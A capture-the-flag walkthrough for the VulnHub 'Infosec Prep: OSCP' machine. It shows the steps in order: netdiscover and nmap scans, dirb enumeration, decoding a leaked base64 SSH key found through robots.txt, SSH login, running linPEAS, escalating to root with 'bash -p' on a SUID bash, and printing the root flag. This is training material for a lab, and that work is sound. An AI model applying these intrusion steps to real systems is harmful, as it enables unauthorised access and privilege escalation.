# Infosec Prep: OSCP

## Introduction

Name : Infosec Prep: OSCP

Link : [Infosec Prep](https://vulnhub.com/entry/infosec-prep-oscp,508/)

- This CTF is the perfect choice for beginners, as it offers an exciting opportunity to sharpen your enumeration skills and master basic Linux privilege escalation techniques.
- Designed by the talented Falcon Spy, with the support of Infosec Prep Discord server staff, this machine promises an exhilarating experience. 
- Get ready to embark on a thrilling cybersecurity journey as we delve into the intricacies of this machine.


## Step 1: Discovering the IP and Network Status

Our first mission is to discover the target machine's IP and check if it's on the network. Execute the following command to accomplish this:

```
netdiscover -r 192.168.0.0/16
```



In my case, the IP is `192.168.141.133`; however, yours might be different.

## Step 2: Nmap Scan - Unraveling Open Ports

Now, let's unleash the power of Nmap to scan the target machine and identify open ports. Execute the following command:
```
nmap -A -o -v -T4 192.168.141.133
```

Nmap scan result revealing open ports 80 and 22.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.4.2

```

Indicating a web server and an accessible SSH service.

## Step 3: Web Server Enumeration

Excitement intensifies as we explore the open port 80 - a web server! By typing the IP in the browser, behold the WordPress services running.



Now, we shall use the mighty dirb tool to discover the website's available directories:

```
dirb http://192.168.141.133/
```



Here we see `robots.txt` available so visit it on the browser.



## Step 4: Decoding Hidden Secrets

The `robots.txt` file reveals a mysterious secret text file with encoded hash codes. 



After some research, we found that these codes are in Base64 encoding, it might be OpenSSH private key. We save this hash in a file called `secret.txt`.



To convert this hash into an OpenSSH private key, decode it using the command:

```bash
cat secret.txt | base64 -d > id_rsa
```

Next, give `600` permissions to the private key file, this permission required to use file in ssh:

```bash
chmod 600 id_rsa
```

We also noticed that the webpage shows a single user named `oscp`.



## Step 5: Logging in as `oscp` User

Now, we can log in to the `oscp` user account using the private key, use this command to login:

```bash
ssh -i id_rsa oscp@192.168.141.133
```



Using the `id` command, we confirm that we have the `oscp` user ID and this account also has sudo permissions.



## Step 6: Privilege Escalation - linPEAS

There is a bash script called [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) used to find vulnerable files that can help us gain root access. We can run the bash script only in the tmp folder, so navigate to the tmp folder using:

```bash
cd ../../tmp/
```

Download the bash script using wget in tmp folder using:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Give executable permission to run the file:

```bash
chmod +x linpeas.sh
```

Now, run the script:

```bash
./linpeas.sh
```

Wait until the script execution completes. 



In the result, we find that the file `/usr/bin/bash` is open and has root access, indicating a potential privilege escalation.

## Step 7: Escalating to Root

Use the following command to gain root access to the vulnerable file:

```bash
/usr/bin/bash -p
```

Or you can also use command:

```bash
bash -p
```



Now, we have the root user ID.

## Step 8: Finding the Flag

Navigate to the root folder:

```bash
cd ../root/
```

View the content of the `flag.txt` file to retrieve the root flag:

```bash
cat flag.txt
```



The `flag.txt` contains the second flag: 

```
d73b04b0e696b0945283defa3eee4538
```

